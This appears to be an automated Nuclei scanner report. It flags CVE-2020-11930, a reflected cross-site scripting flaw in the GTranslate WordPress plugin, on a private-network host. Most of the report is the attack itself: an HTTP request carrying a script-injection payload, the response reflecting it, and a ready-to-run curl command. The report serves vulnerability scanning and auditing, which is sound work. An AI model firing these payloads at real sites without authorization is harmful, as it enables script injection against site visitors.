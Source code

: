 ### WordPress Plugin "Translate WordPress with GTranslate" (gtranslate) XSS (CVE-2020-11930) found on http://192.168.198.179:8080/
---
**Details**: **CVE-2020-11930**  matched at http://192.168.198.179:8080/

**Protocol**: HTTP

**Full URL**: http://192.168.198.179:8080/does_not_exist%22%22%3E%3Cscript%3Ealert%28%22XSS%22%29%3C/script%3E%3Cimg%20src=x

**Timestamp**: Wed Jun 8 20:22:28 +0100 BST 2022

**Template Information**

| Key | Value |
|---|---|
| Name | WordPress Plugin "Translate WordPress with GTranslate" (gtranslate) XSS |
| Authors | dhiyaneshdk |
| Tags | cve, cve2020, wordpress, xss, plugin |
| Severity | medium |
| Description | The GTranslate plugin before 2.8.52 for WordPress was vulnerable to an Unauthenticated Reflected XSS vulnerability via a crafted link. This requires use of the hreflang tags feature within a sub-domain or sub-directory paid option.
 |
| CVSS-Metrics | [CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N) |
| CWE-ID | [CWE-79](https://cwe.mitre.org/data/definitions/79.html) |
| CVE-ID | [CVE-2020-11930](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2020-11930) |
| CVSS-Score | 6.10 |

**Request**
```http
GET /does_not_exist%22%22%3E%3Cscript%3Ealert%28%22XSS%22%29%3C/script%3E%3Cimg%20src=x HTTP/1.1
Host: 192.168.198.179:8080
User-Agent: Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/35.0.3319.102 Safari/537.36
Connection: close
Accept: */*
Accept-Language: en
Accept-Encoding: gzip


```

**Response**
```http
HTTP/1.0 200 OK
Connection: close
Content-Length: 198
Content-Type: text/html

<HTML><HEAD><TITLE>File Not Found</TITLE></HEAD><BODY><H1>Cannot find this file.</H1>The requested file: <B>/does_not_exist""><script>alert("XSS")</script><img src=x</B> was not found.</BODY></HTML>
```

References: 
- https://wpscan.com/vulnerability/10181
- https://payatu.com/blog/gaurav/analysis-of-cve-2020-11930:-reflected-xss-in-gtranslate-wordpress-module
- https://plugins.trac.wordpress.org/changeset/2245581/gtranslate
- https://plugins.trac.wordpress.org/changeset/2245591/gtranslate

**CURL Command**
```
curl -X 'GET' -d '' -H 'Accept: */*' -H 'Accept-Language: en' -H 'User-Agent: Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/35.0.3319.102 Safari/537.36' 'http://192.168.198.179:8080/does_not_exist%22%22%3E%3Cscript%3Ealert%28%22XSS%22%29%3C/script%3E%3Cimg%20src=x'
```
---
Generated by [Nuclei 2.7.1](https://github.com/projectdiscovery/nuclei)